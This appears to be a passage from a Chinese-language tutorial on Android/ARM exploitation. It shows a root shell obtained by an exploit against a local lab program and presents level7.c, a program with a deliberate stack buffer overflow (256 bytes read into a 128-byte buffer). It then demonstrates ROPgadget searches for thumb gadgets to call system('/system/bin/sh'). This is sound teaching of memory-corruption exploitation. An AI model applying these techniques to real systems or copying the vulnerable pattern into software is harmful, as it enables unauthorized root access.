 执行效果如下：

```
#!bash
$ python level6.py 
[+] Opening connection to 127.0.0.1 on port 10001: Done
[*] Switching to interactive mode
$ /system/bin/id
uid=0(root) gid=0(root) context=u:r:shell:s0
```

# 0x02 寻找thumb gadgets

------

下面我们来看第二个程序level7.c：

```
#!c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

char *str="/system/bin/sh";

void callsystem()
{
system("id");
}

void vulnerable_function() {
char buf[128];
read(STDIN_FILENO, buf, 256);
}

int main(int argc, char** argv) {
if (argc==2&&strcmp("passwd",argv[1])==0)
callsystem();
write(STDOUT_FILENO, "Hello, World\n", 13);    
vulnerable_function();
}
```

在这个程序里，我们即使知道密码，也仅仅只能执行”id”这个命令，我们的目标是获取到一个可以使用的shell，也就是执行`system("/system/bin/sh")`。怎么办呢？这里我们就需要来寻找可利用的gadgets，先让r0指向`"/system/bin/sh"`这个字符串的地址，然后再调用system()函数达到我们的目的。

如何寻找gadgets呢？虽然用ida或者objdump也可以进行查找，但比较费时费力，这里我推荐使用ROPGadget。因为level7默认会编译成thumb指令，所以我们也采用thumb模式查找gadgets:

```
#!bash
$ ROPgadget --binary=./level7 --thumb | grep "ldr r0"
0x00008618 : add r0, pc ; b #0x862e ; ldr r0, [pc, #0x10] ; add r0, pc ; ldr r0, [r0] ; b #0x8634 ; movs r0, #0 ; pop {pc}
0x0000861e : add r0, pc ; ldr r0, [r0] ; b #0x862e ; movs r0, #0 ; pop {pc}
0x0000893e : add r3, sp, #0xc ; movs r1, #0 ; str r3, [sp] ; adds r3, r1, #0 ; bl #0x8916 ; ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
0x000090fe : add r3, sp, #0xc ; str r3, [sp] ; movs r2, #0xc ; adds r3, r1, #0 ; bl #0x8916 ; ldr r0, [sp, #0xc] ; add sp, #0x14 ; pop {pc}
0x000093ca : add sp, #0x10 ; pop {r4, pc} ; push {r3, lr} ; bl #0x911c ; ldr r0, [r0, #0x48] ; pop {r3, pc}
0x00008826 : add sp, r3 ; pop {r4, r5, r6, r7, pc} ; mov r8, r8 ; stc2 p15, c15, [r4], #-0x3fc ; ldr r0, [r0, #0x44] ; bx lr
……
```
